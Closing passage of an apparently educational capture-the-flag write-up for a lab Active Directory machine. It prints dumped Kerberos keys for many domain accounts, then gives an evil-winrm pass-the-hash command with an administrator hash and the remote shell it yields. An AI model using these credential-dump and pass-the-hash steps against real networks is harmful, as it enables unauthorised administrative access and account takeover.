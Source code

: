 ```
spookysec.local\darkstar:des-cbc-md5:758af4d061381cea
spookysec.local\Ori:aes256-cts-hmac-sha1-96:5534c1b0f98d82219ee4c1cc63cfd73a9416f5f6acfb88bc2bf2e54e94667067
spookysec.local\Ori:aes128-cts-hmac-sha1-96:5ee50856b24d48fddfc9da965737a25e
spookysec.local\Ori:des-cbc-md5:1c8f79864654cd4a
spookysec.local\robin:aes256-cts-hmac-sha1-96:8776bd64fcfcf3800df2f958d144ef72473bd89e310d7a6574f4635ff64b40a3
spookysec.local\robin:aes128-cts-hmac-sha1-96:733bf907e518d2334437eacb9e4033c8
spookysec.local\robin:des-cbc-md5:89a7c2fe7a5b9d64
spookysec.local\paradox:aes256-cts-hmac-sha1-96:64ff474f12aae00c596c1dce0cfc9584358d13fba827081afa7ae2225a5eb9a0
spookysec.local\paradox:aes128-cts-hmac-sha1-96:f09a5214e38285327bb9a7fed1db56b8
spookysec.local\paradox:des-cbc-md5:83988983f8b34019
spookysec.local\Muirland:aes256-cts-hmac-sha1-96:81db9a8a29221c5be13333559a554389e16a80382f1bab51247b95b58b370347
spookysec.local\Muirland:aes128-cts-hmac-sha1-96:2846fc7ba29b36ff6401781bc90e1aaa
spookysec.local\Muirland:des-cbc-md5:cb8a4a3431648c86
spookysec.local\horshark:aes256-cts-hmac-sha1-96:891e3ae9c420659cafb5a6237120b50f26481b6838b3efa6a171ae84dd11c166
spookysec.local\horshark:aes128-cts-hmac-sha1-96:c6f6248b932ffd75103677a15873837c
spookysec.local\horshark:des-cbc-md5:a823497a7f4c0157
spookysec.local\svc-admin:aes256-cts-hmac-sha1-96:effa9b7dd43e1e58db9ac68a4397822b5e68f8d29647911df20b626d82863518
spookysec.local\svc-admin:aes128-cts-hmac-sha1-96:aed45e45fda7e02e0b9b0ae87030b3ff
spookysec.local\svc-admin:des-cbc-md5:2c4543ef4646ea0d
spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922
spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
spookysec.local\a-spooks:aes256-cts-hmac-sha1-96:cfd00f7ebd5ec38a5921a408834886f40a1f40cda656f38c93477fb4f6bd1242
spookysec.local\a-spooks:aes128-cts-hmac-sha1-96:31d65c2f73fb142ddc60e0f3843e2f68
spookysec.local\a-spooks:des-cbc-md5:e09e4683ef4a4ce9
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:5081c2173ee46154ab643fb71630c5ce5c30872a35d64307b1d69863595064be
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:20308f94a07e2a236e26a99cbe63530d
ATTACKTIVEDIREC$:des-cbc-md5:316ec21a8f86d076
[*] Cleaning up... 
```

And now that we have hashes for all accounts we can use pass-the-hash technique to login using evil-winrm. pass-the-hash is nothing but another form of authentication in which instead of credentials we provide  a hash to log in.

```
$ evil-winrm -u administrator -H 0e0363213e37b94221497260b0bcb4fc -i 10.10.27.108

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>

*Evil-WinRM* PS C:\Users\svc-admin\Desktop> whoami
thm-ad\administrator
*Evil-WinRM* PS C:\Users\svc-admin\Desktop> hostname
AttacktiveDirectory
```

And now we logged in as admin using the admin hash. Form there just read all the flags from everyone's Desktop.

Nice and easy box, learned a bit about Active directory, cleared some confusions about the TGT and finally performed pass-the-hash.